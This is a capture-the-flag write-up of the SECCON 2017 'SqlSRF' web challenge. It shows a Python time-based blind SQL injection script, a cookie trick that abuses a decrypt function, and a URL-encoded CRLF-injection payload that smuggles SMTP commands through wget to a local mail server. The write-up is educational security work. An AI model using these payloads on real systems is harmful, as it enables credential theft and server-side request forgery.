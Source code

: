 # SqlSRF

SqlSRF was a 400 point Web challenge in the quals of SECCON 2017. While not exceptionally hard, it required a diverse skillset and was thus quite interesting.

## Challenge description

```
SqlSRF

The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
http://sqlsrf.pwn.seccon.jp/sqlsrf/ 
```

## The files

Upon clicking the link provided in the description, we're presented with a list of four files: *bg-header.jpg*, *index.cgi*, *index.cgi_backup20171129*, and *menu.cgi*.

I decided to look into the backup file of *index.cgi* right away. It contains the following code:

```perl
#!/usr/bin/perl

use CGI;
my $q = new CGI;

use CGI::Session;
my $s = CGI::Session->new(undef, $q->cookie('CGISESSID')||undef, {Directory=>'/tmp'});
$s->expire('+1M'); require './.htcrypt.pl';

my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');

my $errmsg = '';
if($q->param('login') ne '') {
  use DBI;
  my $dbh = DBI->connect('dbi:SQLite:dbname=./.htDB');
  my $sth = $dbh->prepare("SELECT password FROM users WHERE username='".$q->param('user')."';");
  $errmsg = '<h2 style="color:red">Login Error!</h2>';
  eval {
    $sth->execute();
    if(my @row = $sth->fetchrow_array) {
      if($row[0] ne '' && $q->param('pass') ne '' && $row[0] eq &encrypt($q->param('pass'))) {
        $s->param('autheduser', $q->param('user'));
        print "<scr"."ipt>document.location='./menu.cgi';</script>";
        $errmsg = '';
      }
    }
  };
  if($@) {
    $errmsg = '<h2 style="color:red">Database Error!</h2>';
  }
  $dbh->disconnect();
}
$user = $q->escapeHTML($user);

print <<"EOM";
<!-- The Kusomon by KeigoYAMAZAKI, 2017 -->
<div style="background:#000 url(./bg-header.jpg) 50% 50% no-repeat;position:fixed;width:100%;height:300px;top:0;">
</div>
<div style="position:relative;top:300px;color:white;text-align:center;">
<h1>Login</h1>
<form action="?" method="post">$errmsg
<table border="0" align="center" style="background:white;color:black;padding:50px;border:1px solid darkgray;">
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
<tr><td>Password:</td><td><input type="password" name="pass" value=""></td></tr>
<tr><td colspan="2"><input type="checkbox" name="save" value="1">Remember Me</td></tr>
<tr><td colspan="2" align="right"><input type="submit" name="login" value="Login"></td></tr>
</table>
</form>
</div>
</body>
</html>
EOM

1;
```
## SQL injection

Without thinking too much (and hinted by the title of the challenge), I noticed that this code was vulnerable to a Time-Based SQL injection. I also know that the DBMS used is SQLite. I wrote the following code:

```python
import requests
from time import time

url_prefix = 'http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi?login=1&user='
payload_prefix = "admin' and password like '"
payload_suffix = "%' and 1=randomblob(300000000)--"

chars = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_'
result = ''

while True:
    for char in chars:
        payload = url_prefix + payload_prefix + result + char + payload_suffix
        start = time()
        text = requests.get(payload).text
        end = time()
        if end - start > 2.5:
            result += char
            break
    print result
```

I just assumed that the username would be **admin** (which it was), but the username of the user can be bruteforced in the same way by modifying `payload_prefix` a bit.

I ended up with the following results:
```
username = admin
password = d2f37e101c0e76bcc90b5634a5510f64
```
Since the encrypted password found in the database was 32 characters long, I immediately thought that it could be **MD5**. Unfortunately, after checking several MD5 reversing websites, I was unable to find the original password.

At this point, I supposed that **admin** was not the only user in the database, and that maybe I should get access to *menu.cgi* using another user's credentials.

By modifying the previous script a bit, I managed to find the following credentials in the database:
```
username = user1
password = b8e32e6d23001fad5585258ba815e424f86eb0f42e8d0e9688dfb1293ee5e9ec
```

This encrypted password is clearly not 32 characters long, so I concluded that the `encrypt` function used in *index.cgi* was homemade. Unfortunately, I didn't manage to read the file using my SQL injection, as `readfile` was not available.

## Reversing the passwords

Since I was not able to read the file containing the definition of the `decrypt` function, I quickly realized that there should therefore be a way to call it.

By looking at the code a bit more, I realized that the following code could be exploited:

```perl
my $user = $q->param('user');
print $q->header(-charset=>'UTF-8', -cookie=>
  [
    $q->cookie(-name=>'CGISESSID', -value=>$s->id),
    ($q->param('save') eq '1' ? $q->cookie(-name=>'remember', -value=>&encrypt($user), -expires=>'+1M') : undef)
  ]),
  $q->start_html(-lang=>'ja', -encoding=>'UTF-8', -title=>'SECCON 2017', -bgcolor=>'black');
  $user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
```

By replaying a request with the `remember` cookie set and setting it to an encrypted password, it would end up displayed in the *username* field on the page, as the following code shows:

```html
<tr><td>Username:</td><td><input type="text" name="user" value="$user"></td></tr>
```

By doing that with the encrypted admin password `d2f37e101c0e76bcc90b5634a5510f64`, I managed to obtain the plaintext password "**Yes!Kusomon!!**".

Using the credentials **admin**/**Yes!Kusomon!!** then gives us access to *menu.cgi*.

## Command injection

*menu.cgi* is a page that lets us issue two shell commands to the server: `netstat -tnl` and `wget --debug -O /dev/stdout 'http://<user_controlled_input>'`.

After a few checks, it appears that it is not possible to simply issue arbitrary commands from the interface, as no command injection seems to be possible.

## SSRF

Now, the title of the challenge did mention some kind of **S(ql)SRF**. Based on this knowledge, I ran the `netstat -tnl` command and got the following output:
```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 ::1:25                  :::*                    LISTEN     
```

Hm… A service is running locally on port 25, which is common for **SMTP**. The description of the challenge **did** say that the root would reply with the flag to my mail address if I sent him an email with the subject *give me flag*.

Coincidentally, this also reminded me of this [presentation](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) at **BlackHat USA 2017** (*TL;DR `wget` is vulnerable to CRLF injections*).

Armed with this knowledge, it was just a matter of crafting the payload, with every special character url encoded:
```
127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3CSIben%40mindyourownbusiness.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/
```

A few seconds after sending this payload, I received an email with the following content:
```
Encrypted-FLAG: 37208e07f86ba78a7416ecd535fd874a3b98b964005a5503bcaa41a1c9b42a19
```

More encryption? I immediately went back to the *Reversing the passwords* step and put this encrypted string in the cookie.

This outputs the flag: **SECCON{SSRFisMyFriend!}**
